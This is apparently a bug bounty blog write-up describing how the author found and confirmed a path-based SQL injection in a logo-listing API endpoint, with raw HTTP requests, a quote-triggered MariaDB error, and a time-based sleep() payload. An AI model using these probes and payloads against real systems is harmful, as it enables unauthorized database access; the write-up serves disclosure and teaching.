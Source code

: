 ```yaml
---
title: "The exploitation of a $$$$ SQL Injection Path Based"
date: 2024-06-03 08:13:13 -03
categories: [bugbounty]
tags: [bugbounty]
image: /assets/img/Posts/sqli.png
---
```


# Here is how I exploited a unusual SQL Injection Path Based and got rewarded with $$$$ bounty 


First of all, here are some sections that will be covered in this article,

```
┌───────────────Summary────────────────┐
│                                      │
│  1. Fase One - Analysing features    │
│     - Finding interesting feature    │
│  2. Fase Two - Exploitation          │
│                                      │
└──────────────────────────────────────┘
```

# Section 1 - Analysing features

In this web application, after logging in, This site had 3 main functionalities, one for creating `ebrochures`, another for creating `embed content`, and another for creating `mini sites`.

All of this 3 functionalities had a logo system, which query all existent logos uploaded to the website, along with a `logo upload` which will be covered in the next article 💀.

<img src="/assets/img/Posts/functionalities.png">


## Finding Interesting Feature

After identifying that there was a `logo upload system`, and that it searched for existing logos using a `query`, I decided to take a deeper look at this part.

<img src="/assets/img/Posts/logofunc.png">

To show the logos that have been approved, it makes a `suspicious query`, and then `loads the page` and makes it possible to upload another logo. 

In this article I will only focus on the exploration part of how the application gets these `approved logos`.


# Section 2 - Exploitation

Now, by intercepting the request to logo endpoint, we have the following:

**Request**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved,Rejected,Pending/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```

Analyzing the request, it was possible to notice that after the include/ endpoint, 

it uses as arguments some values that serve to `identify` the logos, that is, those values that are there are used to `filter` the logos by `approved` logos, `pending approval`, or `rejected`.

Which seems strange, because a `comma` is even being used to separate the arguments, and at the end of the path there is a `sortBy`, which leads me to believe that this endpoint is probably `querying the database` to get the logos

**Request with single quote**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved'/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```

What we got:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Approved'')  ORDER BY CAST(STATUS AS CHAR) ASC, APPROVED_DATE DESC' at line 20, errors: [{errorType: (SYSTEM_ERROR, System Error), errorCode: (030003, System Error), message: Dao Error}]}",
```

Perfect!, we now know for sure it is vulnerable to SQL Injection.

---

Since we know that the query has '), we need to escape it but fix the syntax by also putting the ), so as not to break the query

**Time Based Payload Request**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved')+and+sleep(2)+--+-/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: www.redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```


Due to the use of `akamai cdn`, and communication with `internal servers`, sleep payload was taking `6 seconds longer`, that is, `sleep(1)` takes 6 seconds, `sleep(2)` 12 seconds, and `sleep(3)`, 18 seconds, but this did not affect the triage of the report.

**sleep(1)**:

<img src="/assets/img/Posts/1sec.png">

**sleep(2)**:

<img src="/assets/img/Posts/2sec.png">


This was enough to get the report triaged. GG!

---



# Thank you !


<img src="/assets/img/Posts/end.png">

# Report Status


> Reported at - July 9, 2024, 10:26pm UTC

> Triaged at - July 10, 2024, 8:35pm UTC

> Payed at - July 11, 2024, 7:03pm UTC

> OBS: This report was made along with my friend which found this application and program for testing and send it to me, thanks @foorw1nner :)

<img src="/assets/img/Posts/bountysqli.png">
